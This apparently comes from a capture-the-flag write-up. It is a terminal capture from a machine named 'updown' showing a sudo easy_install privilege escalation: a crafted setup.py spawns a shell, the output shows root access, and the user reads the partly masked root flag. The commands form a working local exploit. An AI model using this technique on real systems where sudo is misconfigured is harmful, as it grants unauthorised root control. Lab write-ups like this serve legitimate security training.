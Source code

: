 ```bash
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.NT4PxVL77n
Writing /tmp/tmp.NT4PxVL77n/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.NT4PxVL77n/egg-dist-tmp-pco3ug
# id    
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
eb****************************9f
```
